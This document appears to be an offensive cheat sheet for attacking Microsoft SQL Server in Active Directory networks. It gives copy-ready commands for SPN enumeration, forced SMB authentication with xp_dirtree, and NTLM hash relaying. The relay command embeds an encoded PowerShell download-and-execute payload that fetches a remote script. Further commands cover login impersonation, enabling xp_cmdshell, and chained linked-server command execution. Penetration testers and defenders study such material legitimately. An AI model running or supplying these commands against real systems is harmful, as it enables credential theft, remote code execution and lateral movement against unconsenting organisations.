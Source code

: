 **MSSQL Enumeration:**

In order to locate instances of MSSQL servers, we can run a network scan(port 1433/TCP) or if we are in an active directory enviromet we can query our domain DC for MSSQL SPNs. To do so, we can use the native "setspn" tool, or with [GetUsersSPNs.ps1]( https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1).

```
1. C:\> setspn -T corp1 -Q MSSQLSvc/*

2. PS C:\> .\GetUsersSPNs.ps1 
```

**CONNECTION AND AUTHENTICATION TO THE SERVER:**

Generally the easiest ones to use are impacket-mssqlclient(to connect from linux) and the sqlcmd utility(to connect from windows). When using impacket-mssqlclient with active directory domain authentication don't forget the "-windows-auth" flag!

IMPORTANT: Mainly all commands specified in this document are meant to be thrown through an impacket-mssqlclient or sqlcmd shell.

**UNC PATH Injection and Hash Relaying:**

Throw this command and verify that the authentication with you SMB server was successful:
```
xp_dirtree \\192.168.1.1\test\
```
You can easily create your SMB server with impacket:
```
~# impacket-smbserver test $(pwd) -smb2support
```
To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you can use impacket-ntmlrelayx:
```
~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
```

**PRIVILEGE ESCALATION:**

To view the users you can impersonate:
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
To impersonate(assuming you can impersonate the sa user):
```
EXECUTE AS LOGIN = sa
```

**CODE EXECUTION(through xp_cmdshell):**

Use this commands at this order:

1st ```"EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;```

2nd ```EXEC xp_cmdshell whoami```

**CODE EXECUTION ON A LINKED MSSQL SERVER:**

To list linked SQL servers(2 ways):
```
exec sp_linkedservers;

SELECT * FROM sys.servers;
```
For this example, assume that dc01 is the linked server. 

1st ```EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01```

2nd ```EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01```

3rd ```EXEC (xp_cmdshell 'whoami';) AT dc01```

**PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**

Supose that we have low privileges on our current MSSQL server, however there is a linked MSSQL server where we do have high privileges. So how do we do to gain high privileges on our first MSSQL server?
(For demonstration purposes we have low privileges on dc01 but high privileges on appsrv01)

Here are the commands we must throw through dc01:

1st ```EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01```

2nd ```EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01```

3rd ```EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01```



